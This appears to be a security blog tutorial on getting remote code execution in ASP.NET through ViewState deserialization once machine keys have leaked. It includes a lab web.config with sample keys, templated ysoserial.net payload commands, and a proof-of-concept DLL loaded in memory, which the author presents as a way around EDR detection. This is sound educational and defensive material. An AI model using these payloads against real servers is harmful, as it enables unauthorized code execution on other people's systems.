+++
author = "Meister"
title = "Exploiting ASP.NET Leaked Machine Keys"
date = "2025-08-31"
description = "In this blog post we will dive into RCE via deserialization on ASP.NET via leaked machine keys"
tags = [
    "Web",
    "IIS"
]
categories = ["Exploitation"]
image = "featured.png"
+++

## Intro

Recently at work, I participated in a  purple teaming exercise that was focused on IIS compromise. In this scenario the web.config of the server had been leaked and the question was: what an attacker could do with this information? My eyes went straight the db credentials and I called it a day.

Well, db credentials wasn't the worse part. You know that if the asp.net machine keys are leaked, this can turn into a RCE? 

This is the story behind this blog post. Of course it is not a new technique, but I would like to share my understanding of the subject and use it as my first blog post :-)

The goal of the post is:

- Understand what ViewState is.
- The role of the machine keys.
-  Show how a machine key leak can lead to RCE.

We'll be configuring a PoC server along the way.

## View State

Let's start with Microsoft oficial documentation about what is view state:

"View state is the method that the ASP.NET page framework uses to preserve page and control values between round trips. When the HTML markup for the page is rendered, the current state of the page and values that must be retained during postback are serialized into base64-encoded strings. This information is then put into the view state hidden field or fields."

As stated by Microsoft, View State is the mechanism which ASP.NET pages and controls use to mantain the state during postbacks (when we resend a request in the same page to be processed by the server).  The term “control” is not very explanatory. Simply put, it refers to elements like a “button” or “text” on an HTML page ([see more here](https://www.tutorialspoint.com/asp.net/asp.net_basic_controls.htm)) .The technology was projected to retain the information on the same page rather than cross pages, also solves the problem of HTTP being stateless.

The value is stored on the client side through a "hidden" field called `__VIEWSTATE` in HTML, like this:



To better understand, let's build a tiny sample app. It's purpose is to count how many times the user clicks the button "Increment". Given that HTTP is a stateless protocol, this magic will be done by the view state.

On a developer machine with Visual Studio, I will be using the `ASP.NET Web Application (.NET Framework)` template.

As I am not an ASP.NET developer, with a little googling and chagpt I put together this code:

**Front-End**
```html
<%@ Page Language="C#" AutoEventWireup="true" CodeBehind="Default.aspx.cs" Inherits="ViewMyState._Default" %>

<!DOCTYPE html>
<html>
<head runat="server">
    <title>ViewState Counter Demo</title>
</head>
<body>
    <form id="form1" runat="server">
        <div style="font-family:Segoe UI; margin:20px;">
            <asp:Label 
              ID="lblCount" 
              runat="server" 
              Font-Size="Large" 
              Text="Clicks: 0" />
            <br /><br />
            <asp:Button 
              ID="btnIncrement" 
              runat="server" 
              Text="Increment" 
              OnClick="btnIncrement_Click" />
        </div>
    </form>
</body>
</html>
```

**Back-End**
```C#
using System;
using System.Collections.Generic;
using System.Linq;
using System.Web;
using System.Web.UI;
using System.Web.UI.WebControls;

namespace ViewMyState
{
    public partial class _Default : System.Web.UI.Page 
    {

        protected void Page_Load(object sender, EventArgs e)
        {
            if (!IsPostBack)
            {
                ViewState["ClickCount"] = 0;
            }
        }

        protected void btnIncrement_Click(object sender, EventArgs e)
        {
            int count = (int)ViewState["ClickCount"];
            count++;
            ViewState["ClickCount"] = count;
            lblCount.Text = $"Clicks: {count}";
        }
    }
}
```

In Visual Studio _Build -> Publish_ it is possible to "compile" this application. There are various options to publish this application, including Azure, Docker, FTP, Folder etc. To save the application locally, I'll be using the Folder option. 



The final structure of the folder should be similar to this:



Transfering this folder to a Windows Server 2022 with IIS installed, I'll create a new site on port 8080. Browsing to it we have this:



Upon clicking "Increment" the number of clicks increases. 



Using burpsuite, we see that in every response the `__VIEWSTATE` is returned by the application:



> It is important to clarify a common misconception: view state is not used to save the values of controls during postback. In reality, these values are loaded during the "Load Postback Data" phase of the ASP.NET processing pipeline. What needs to be stored in the view state is any programmatic changes to the page's state. Read more about this process in [Understanding ASP.NET View State | Microsoft Learn](https://learn.microsoft.com/en-us/previous-versions/dotnet/articles/ms972976\(v=msdn.10\))

Ok, at this point we've seen the practical use of view state. Lets talk a little bit about how the serialization/deserialization process is involved in this subject. I'll skip the crypto aspect of the following methods as it will be covered in the machine keys section.

When we send this serialized view state to the application, it will be handled by the `ObjectStateFormatter` class, more specifically the `Deserialize` method, present on `system.web.dll`.

In some articles and documentation, it is common to find information that this process is handled by the LOSFormatter class. This is the case when dealing with older ASP.NET (version 1.X). In version 2.0 (and higher), the class being used for this purpose is ObjectStateFormatter [reference](https://learn.microsoft.com/en-us/aspnet/web-forms/overview/moving-to-aspnet-20/server-controls).

```C#
private object Deserialize(string inputString, Purpose purpose) {
    if (String.IsNullOrEmpty(inputString)) {
        throw new ArgumentNullException("inputString");
    }
    byte[] inputBytes = Convert.FromBase64String(inputString);
    int length = inputBytes.Length;
    object result = null;
    MemoryStream objectStream = GetMemoryStream();
    try {
        objectStream.Write(inputBytes, 0, length);
        objectStream.Position = 0;
        result = Deserialize(objectStream);
    }
    finally {
        ReleaseMemoryStream(objectStream);
    }
    return result;
}
```

To demonstrate this, we can use dnspy debuger, attach to the worker process (w3wp.exe) and set a breakpoint on this method. By making a new request we observe that the value being decoded matches the one present in the view state field.





Then the deserialization process yields an object that is passed to the application, it's logic applied and the object is serialized back into the response.
 
In the same class, the method `Serialize` will be used for this purpose:

```C#
private string Serialize(object stateGraph, Purpose purpose)
{
	string result = null;
	MemoryStream memoryStream = ObjectStateFormatter.GetMemoryStream();
	try
	{
		this.Serialize(memoryStream, stateGraph);
		memoryStream.SetLength(memoryStream.Position);
		byte[] array = memoryStream.GetBuffer();
		int length = (int)memoryStream.Length;
		result = Convert.ToBase64String(array, 0, length);
	}
	finally
	{
		ObjectStateFormatter.ReleaseMemoryStream(memoryStream);
	}
	return result;
}
```

Seeing this in action:





This code align with the microsoft explanation of view state we saw earlier: "the current state of the page and values that must be retained during postback are serialized into base64-encoded strings".

With this visual walkthrough, we now understand what view state is, its purpose and a bit of what happens under the hood.

## Machine Keys

As we've seen, when a view state is sent back to an ASP.NET app, the deserialization process occur.

When this architecture was originally designed, deserialization attacks were not a major security concern. This mean that if an attacker craft a malicious serialized object inside the view state, the application will instantiate it. This can be weaponized through gadget chains. The tool ysoserial.net makes this process trivial, but let's talk about it in the attack section.

In order to prevent these type of attacks, validation and encryption keys were created and are now enforced by default in ASP.NET.

In IIS Manager, the "Machine Keys" section holds this configuration:




 
Let's define the purpose of these keys.

- Validation Key: Is used to create message authentication code (MAC). Basically this is the key used to sign the viewstate, granting that the view state has not been tampered with. The algorithms available are: AES, MD5, SHA1, TripleDES, HMACSHA256, HMACSHA384, HMACSHA512. There are others purposes for this key, [check it in here](https://learn.microsoft.com/en-us/dotnet/api/system.web.configuration.machinekeysection.validationkey?view=netframework-4.8.1&redirectedfrom=MSDN#System_Web_Configuration_MachineKeySection_ValidationKey).

- Encryption Key: Used to encrypt the view state itself. If some sensitive information is stored on the view state, is possible to use this mechanism to encrypt it and mantain safe while client side. There are three values for encryption mode:
	- Always: View state is always encrypted.
	- Never: The view state is never encrypted.
	- Auto: Encrypted only if one of the controls requests it.

If the option **Automatically generate at runtime** (figure 12) is enabled, IIS will generate a master machine key for the server lifetime. Then the keys are derived from this master, and the secret itself is not stored on the config file (it’s kept in the registry). This is ideal when running a single server.

In a web farm scenario (e.g., behind a load balancer), the keys preferably should be statically configured, because the servers must share the same keys. For more detailed information on this process, these are great resources: [1](https://learn.microsoft.com/en-us/previous-versions/dotnet/netframework-4.0/w8h3skw9(v=vs.100)) [2](https://zeroed.tech/blog/viewstate-the-unpatchable-iis-forever-day-being-actively-exploited/)

In this example we'll be using static keys. To generate it, choose the algorithm and simply click on "Generate Keys" and "Apply". This will add the "machineKey" section on web.config:

```xml
<!--
  For more information on how to configure your ASP.NET application, please visit
  https://go.microsoft.com/fwlink/?LinkId=169433
  -->
<configuration>
  <system.web>
    <compilation targetFramework="4.7.2" />
    <httpRuntime targetFramework="4.7.2" />
    <pages>
      <namespaces>
        <add namespace="System.Web.Optimization" />
      </namespaces>
      <controls>
        <add assembly="Microsoft.AspNet.Web.Optimization.WebForms" namespace="Microsoft.AspNet.Web.Optimization.WebForms" tagPrefix="webopt" />
      </controls>
    </pages>
        <machineKey decryption="AES" decryptionKey="42F72B586A8082CFA5D40BE1DEB0AA2C71380B87D0548927" validation="SHA1" validationKey="05A6FB2A837EA6BBD0394646CD63460B28A334D38E77721B8241FFCB69DF3BACC8D26CC97AA92F544833A47D785B28D4796BE03B0E8969E46A923FF8124A486C" />
  </system.web>
```

To summarize:
- ViewState can be **authenticated and encrypted** (using both validation and encryption keys), or just **authenticated** (using only the validation key).
- While it is possible to disable this protection entirely, it is uncommon because Microsoft enforces it by default ([see reference](https://devblogs.microsoft.com/dotnet/farewell-enableviewstatemac/)).

Back to the deserialization function, below is the complete code.

```C#
private object Deserialize(string inputString, Purpose purpose)
{
	if (string.IsNullOrEmpty(inputString))
	{
		throw new ArgumentNullException("inputString");
	}
	byte[] array = Convert.FromBase64String(inputString);
	int num = array.Length;
	try
	{
		if (AspNetCryptoServiceProvider.Instance.IsDefaultProvider && !this._forceLegacyCryptography)
		{
			if (this._page != null && (this._page.ContainsEncryptedViewState || this._page.EnableViewStateMac))
			{
				Purpose purpose2 = purpose.AppendSpecificPurposes(this.GetSpecificPurposes());
				ICryptoService cryptoService = AspNetCryptoServiceProvider.Instance.GetCryptoService(purpose2, CryptoServiceOptions.None);
				byte[] array2 = cryptoService.Unprotect(array);
				array = array2;
				num = array2.Length;
			}
		}
		else if (this._page != null && this._page.ContainsEncryptedViewState)
		{
			array = MachineKeySection.EncryptOrDecryptData(false, array, this.GetMacKeyModifier(), 0, num);
			num = array.Length;
		}
		else if ((this._page != null && this._page.EnableViewStateMac) || this._macKeyBytes != null)
		{
			array = MachineKeySection.GetDecodedData(array, this.GetMacKeyModifier(), 0, num, ref num);
		}
	}
	catch
	{
		PerfCounters.IncrementCounter(AppPerfCounter.VIEWSTATE_MAC_FAIL);
		ViewStateException.ThrowMacValidationError(null, inputString);
	}
	object result = null;
	MemoryStream memoryStream = ObjectStateFormatter.GetMemoryStream();
	try
	{
		memoryStream.Write(array, 0, num);
		memoryStream.Position = 0L;
		result = this.Deserialize(memoryStream);
	}
	finally
	{
		ObjectStateFormatter.ReleaseMemoryStream(memoryStream);
	}
	return result;
}
```

The first conditional expression inside try (line 11) is where the .NET compability mode is verified. In .NET Framework 4.5 and later, the machine key system incorporates the concept of a **purpose**. This means keys are derived differently for each application, using factors such as:

- The application’s virtual path (`TemplateSourceDirectory`).
- The page type.
- The `ViewStateUserKey` (if present).

This makes the key derivation unique per app and improves isolation. Below, the code of `GetSpecificPurposes` function:

```C#
internal List<string> GetSpecificPurposes()
{
	if (this._specificPurposes == null)
	{
		if (this._page == null)
		{
			return null;
		}
		List<string> list = new List<string>
		{
			"TemplateSourceDirectory: " + this._page.TemplateSourceDirectory.ToUpperInvariant(),
			"Type: " + this._page.GetType().Name.ToUpperInvariant()
		};
		if (this._page.ViewStateUserKey != null)
		{
			list.Add("ViewStateUserKey: " + this._page.ViewStateUserKey);
		}
		this._specificPurposes = list;
	}
	return this._specificPurposes;
}
```

If the conditional fails, it will handle the encryption in the "legacy" (prior to .NET Framework 4.5) way, where there is no purpose. Encryption (if present) and MAC validation will be processed respectively.

I hope I have clarified the role of machine keys in the context of view state exploitation. 

Let's jump to the fun phase (👉ﾟヮﾟ)👉

## Attacking View State

Returning to the purple team scenario, the `web.config` file has been leaked, exposing the machine keys. This is not an uncommon scenario. In [this post](https://www.microsoft.com/en-us/security/blog/2025/02/06/code-injection-attacks-using-publicly-disclosed-asp-net-machine-keys/) of Microsoft Security Inteligence team, more then 3k of these keys were found publicly available.

The critical risk emerges from the inherent vulnerabilities in the .NET functions responsible for deserialization. Microsoft warns against this in their [documentation](https://learn.microsoft.com/en-us/dotnet/standard/serialization/binaryformatter-security-guide):



Once the attacker have the keys to encrypt and/or sign the view state, every object within this forged view state will be instantiated during the deserialization process on the server.

To exploit this design, Soroush Dalili (@irsdl) created a plugin called "viewstate" for [ysoserial.net](https://github.com/pwntester/ysoserial.net.git). This tool generates a gadget chain to exploit the instantiation of the object, making possible code execution. It's creators presented this subject at defcon and delve deep into this process: https://www.youtube.com/watch?v=ZBfBYoK_Wr0

#### Command Execution

To first explore this scenario, let's run a simple command. The syntax of ysoserial we will be using is the following:

```
.\ysoserial.exe -p ViewState -g TypeConfuseDelegate -c "<COMMAND>" --path="/" --apppath="/" --validationalg="<Validation_algorithm>" --validationkey="<validation_key_value>" --decryptionalg="<decryption_algorithm>" --decryptionkey="<decryption_key_value>" --isdebug
```

- `-p` indicates the plugin.
- `-g` gadget chain being used.
- `-c` command to run.
- `--path` path of the page being attacked. In this case "/", in other cases could be "/account/login.aspx".
- `--apppath`  the webroot of the application we are targeting.
- `--validationalg` algorithm of the valitation key.
- `--validationkey` actual value of the validation key.
- `--decryptionalg` algorithm of the decryption key.
- `--decryptionkey` actual value of the decryption key.

Demo:



Naturally you might be wondering about the scenarios where the keys are set to be auto-generated. In this case Soroush Dalili (@irsdl) comes to rescue again! By uploading this aspx code to the application, the automatically generated keys will be shown: https://gist.github.com/irsdl/36e78f62b98f879ba36f72ce4fda73ab

#### Code Execution

Command execution should suffice to exploit the application. But if some EDR is in place, probably this type of payload will be detected and prevented.

To circumvent this inconvenience, it is possible to execute code directly in memory and don't spawn a cmd.exe from w3wp.exe (highly suspicious).

First, let's create our dll (.NET Framework). This is the code that will run:

```C#
using System.Diagnostics;

namespace PoC
{
    internal class Program
    {
        public Program()
        {
            Process.Start("cmd.exe", "/c tasklist.exe > C:\\Users\\Public\\Hacked.txt");
        }
    }
}
```

Of course this is just a PoC code and do not remain in memory. Weaponization is let to the reader (see the references section).

With this compiled dll we can use ysoserial again to build the payloads. Fist, is necessary to use the gadget ActivitySurrogateDisableTypeCheck to disable type protections for ActivitySurrogateSelector.

```
.\ysoserial.exe -p ViewState -g ActivitySurrogateDisableTypeCheck -c "ignore" --path="/" --apppath="/" --validationalg="<Validation_algorithm>" --validationkey="<validation_key_value>" --decryptionalg="<decryption_algorithm>" --decryptionkey="<decryption_key_value>" --isdebug
```

Now we'll be using the ActivitySurrogateSelectorFromFile gadget to generate our payload based on our compiled dll.

```
.\ysoserial.exe -p ViewState -g ActivitySurrogateSelectorFromFile -c "<path/to/the/.dll>" --path="/" --apppath="/" --validationalg="<Validation_algorithm>" --validationkey="<validation_key_value>" --decryptionalg="<decryption_algorithm>" --decryptionkey="<decryption_key_value>" --isdebug
```

Upon execution you will notice a new "Hacked.txt" file in public user home. (～￣▽￣)～

## Conclusion

There are additional intricacies involved in this exploitation, such as the .NET version in use or the presence of the **ViewStateUserKey** (you might have noticed in _GetSpecificPurposes_ method). Since several excellent blog posts already cover these aspects in depth, I won’t attempt to replicate them here. Instead, I’ll include those sources in the references for readers who want to dive deeper.

Well, that's it. I hope you have enjoyed 😁

If you notice any misconceptions, errors, or inaccuracies, feel free to reach out to me through the social links in the sidebar.

Thank you very much, till next time ^^

## References

**Microsoft Documentation**

https://learn.microsoft.com/en-us/aspnet/web-forms/overview/moving-to-aspnet-20/server-controls
https://learn.microsoft.com/en-us/dotnet/api/system.web.configuration.machinekeysection.validationkey?view=netframework-4.8.1&redirectedfrom=MSDN#System_Web_Configuration_MachineKeySection_ValidationKey
https://devblogs.microsoft.com/dotnet/farewell-enableviewstatemac/
https://learn.microsoft.com/en-us/aspnet/web-forms/overview/moving-to-aspnet-20/server-controls
https://www.microsoft.com/en-us/security/blog/2025/02/06/code-injection-attacks-using-publicly-disclosed-asp-net-machine-keys/
https://learn.microsoft.com/en-us/dotnet/standard/serialization/binaryformatter-security-guide 
[Understanding ASP.NET View State | Microsoft Learn](https://learn.microsoft.com/en-us/previous-versions/dotnet/articles/ms972976\(v=msdn.10\))

**Exploitation**

https://github.com/pwntester/ysoserial.net
https://zeroed.tech/blog/viewstate-the-unpatchable-iis-forever-day-being-actively-exploited/
https://swapneildash.medium.com/deep-dive-into-net-viewstate-deserialization-and-its-exploitation-54bf5b788817
https://soroush.me/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/
https://blog.blacklanternsecurity.com/p/aspnet-cryptography-for-pentesters
https://rivers.chaitin.cn/blog/cq954lh0lnechd244ou0

**Source code**

https://github.com/microsoft/referencesource/blob/main/System.Web/UI/ObjectStateFormatter.cs